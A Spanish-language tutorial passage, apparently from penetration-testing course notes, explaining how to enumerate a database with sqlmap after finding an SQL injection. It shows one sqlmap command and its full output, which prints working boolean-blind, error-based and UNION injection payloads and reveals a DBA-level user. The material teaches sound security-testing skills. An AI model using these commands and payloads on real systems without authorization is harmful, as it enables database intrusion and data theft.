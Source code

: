 
# **Enumeración básica de datos de DB**

Por lo general, después de una detección exitosa de una vulnerabilidad SQLI, podemos comenzar la enumeración de los detalles básicos de la base de datos, como el nombre de host del objetivo vulnerable (`--hostname`), nombre actual del usuario (`--current-user`), nombre de la base de datos actual (`--current-db`), o hashes de contraseña (`--passwords`). SQLMAP omitirá la detección de SQLI si se ha identificado anteriormente y iniciará directamente el proceso de enumeración de DBMS.

La enumeración generalmente comienza con la recuperación de la información básica:

- Banner de versión de base de datos (conmutador`-banner`)
- Nombre de usuario actual (conmutador`-current-user`)
- Nombre de la base de datos actual (conmutador`-current-db`)
- Verificar si el usuario actual tiene derechos de DBA (administrador) (conmutación`-is-dba`)

El siguiente comando sqlmap hace todo lo anterior:

Enumeración de la base de datos

```
xnoxos@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 13:30:57 /2020-09-17/

[13:30:57] [INFO] resuming back-end DBMS 'mysql'
[13:30:57] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 5134=5134

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1 AND (SELECT 5907 FROM(SELECT COUNT(*),CONCAT(0x7170766b71,(SELECT (ELT(5907=5907,1))),0x7178707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CONCAT(0x7170766b71,0x7a76726a6442576667644e6b476e577665615168564b7a696a6d4646475159716f784f5647535654,0x7178707671)-- -
---
[13:30:57] [INFO] the back-end DBMS is MySQL
[13:30:57] [INFO] fetching banner
web application technology: PHP 5.2.6, Apache 2.2.9
back-end DBMS: MySQL >= 5.0
banner: '5.1.41-3~bpo50+1'
[13:30:58] [INFO] fetching current user
current user: 'root@%'
[13:30:58] [INFO] fetching current database
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

```